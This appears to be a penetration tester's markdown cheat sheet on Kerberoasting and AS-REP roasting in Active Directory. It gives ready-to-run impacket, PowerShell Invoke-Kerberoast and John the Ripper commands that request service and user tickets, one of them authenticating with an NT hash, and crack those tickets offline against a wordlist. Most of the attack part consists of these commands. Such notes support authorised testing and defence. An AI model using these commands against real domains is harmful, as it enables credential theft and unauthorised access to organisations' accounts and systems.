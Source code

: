 # [Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

## Questions to ask yourself
  *  Can a list of usernames be obtained somehow?
  *  What services have service principal names?
      *  What users have permissions to access those services?

## Things to remember
  *  Domain account required with the exception of AS-REP roasting
  *  Cracking tickets is best done on real hardware
  *  Watch for mangled text formatting of ticket data blobs

## Useful tools
  *  [`impacket-GetNPUsers`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) for AS-REP roasting
  *  [`impacket-GetUserSPNs`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) for standard kerberoasting
  *  [`Invoke-Kerberoast.ps1`](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/credentials/Invoke-Kerberoast.ps1) for kerberoasting from a domain machine
  *  [`john`](https://www.openwall.com/john/) for cracking Kerberos ticket data blobs

## AS-REP roast
  *  Disabled pre-auth for a user account means anyone can request a TGT
  *  `impacket-GetNPUsers` for requesting TGT for pre-auth disabled users
      *  List of usernames required to AS-REP roast without creds

```
impacket-GetNPUsers example.com/ -no-pass -usersfile /path/to/known/usernames.txt -dc-ip 10.0.0.1
impacket-GetNPUsers example.com/ -no-pass -usersfile /path/to/known/usernames.txt -request -outputfile tgt.txt -dc-ip 10.0.0.1
impacket-GetNPUsers example.com/bob:password -request -dc-ip 10.0.0.1
```

## Kerberoast
  *  Any domain account (including machines) can request a TGS for any SPN
  *  `impacket-GetUserSPNs` for requesting TGS
      *  Gather SPNs of interest and target those first

```
impacket-GetUserSPNs example.com/MACHINEACCOUNT$ -hashes :[NT HASH] -dc-ip 10.0.0.1
impacket-GetUserSPNs example.com/bob:password -usersfile /path/to/known/usernames.txt -dc-ip 10.0.0.1
impacket-GetUserSPNs example.com/bob:password -request -outputfile tgs.txt -dc-ip 10.0.0.1
```

## Powershell kerberoast
  *  `Invoke-Kerberoast.ps1` for requesting TGS from a domain-joined Windows machine
      *  No extra pivoting needed when the KDC is reachable from the client

```
PS > Invoke-Kerberoast -Domain example.com
PS > Invoke-Kerberoast -Domain example.com -OutputFormat Hashcat | Select -ExpandProperty Hash
```

## Cracking Kerberos tickets
  *  `john` for cracking Kerberos tickets obtained via roasting
      *  Tab auto-complete in shell to list matching formats!

```
john -w=/usr/share/wordlists/rockyou.txt --format=krb5asrep tgt.txt
john -w=/usr/share/wordlists/rockyou.txt --format=krb5tgs tgs.txt
```
